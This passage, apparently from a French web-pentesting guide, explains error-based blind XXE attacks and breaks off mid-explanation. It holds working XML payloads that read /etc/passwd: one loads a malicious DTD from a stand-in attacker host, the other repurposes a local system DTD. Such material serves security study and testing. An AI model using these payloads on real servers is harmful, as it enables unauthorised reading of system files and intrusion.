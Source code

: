 ### Basé sur l'erreur (DTD externe)

**Dans ce cas, nous allons faire en sorte que le serveur charge un DTD malveillant qui affichera le contenu d'un fichier dans un message d'erreur (cela n'est valide que si vous pouvez voir les messages d'erreur).** [**Exemple ici.**](https://portswigger.net/web-security/xxe/blind)

Un message d'erreur de parsing XML, révélant le contenu du fichier `/etc/passwd`, peut être déclenché en utilisant un Document Type Definition (DTD) externe malveillant. Cela s'accomplit par les étapes suivantes :

1. Une entité de paramètre XML nommée `file` est définie, contenant le contenu du fichier `/etc/passwd`.
2. Une entité de paramètre XML nommée `eval` est définie, incorporant une déclaration dynamique pour une autre entité de paramètre XML nommée `error`. Cette entité `error`, lorsqu'elle est évaluée, tente de charger un fichier inexistant, incorporant le contenu de l'entité `file` comme son nom.
3. L'entité `eval` est invoquée, conduisant à la déclaration dynamique de l'entité `error`.
4. L'invocation de l'entité `error` entraîne une tentative de chargement d'un fichier inexistant, produisant un message d'erreur qui inclut le contenu du fichier `/etc/passwd` comme partie du nom de fichier.

Le DTD externe malveillant peut être invoqué avec le XML suivant :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
Lors de l'exécution, la réponse du serveur web devrait inclure un message d'erreur affichant le contenu du fichier `/etc/passwd`.

![](<../images/image (809).png>)

_**Veuillez noter que le DTD externe nous permet d'inclure une entité à l'intérieur de la seconde (\*\***`eval`\***\*), mais cela est interdit dans le DTD interne. Par conséquent, vous ne pouvez pas forcer une erreur sans utiliser un DTD externe (généralement).**_

### **Basé sur l'erreur (system DTD)**

Alors, que dire des vulnérabilités XXE aveugles lorsque **les interactions hors bande sont bloquées** (les connexions externes ne sont pas disponibles) ?

Une faille dans la spécification du langage XML peut **exposer des données sensibles à travers des messages d'erreur lorsque le DTD d'un document mélange des déclarations internes et externes**. Ce problème permet la redéfinition interne d'entités déclarées externement, facilitant l'exécution d'attaques XXE basées sur des erreurs. De telles attaques exploitent la redéfinition d'une entité de paramètre XML, initialement déclarée dans un DTD externe, depuis un DTD interne. Lorsque les connexions hors bande sont bloquées par le serveur, les attaquants doivent s'appuyer sur des fichiers DTD locaux pour mener l'attaque, visant à induire une erreur de parsing pour révéler des informations sensibles.

Considérez un scénario où le système de fichiers du serveur contient un fichier DTD à `/usr/local/app/schema.dtd`, définissant une entité nommée `custom_entity`. Un attaquant peut induire une erreur de parsing XML révélant le contenu du fichier `/etc/passwd` en soumettant un DTD hybride comme suit :
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Les étapes décrites sont exécutées par ce DTD :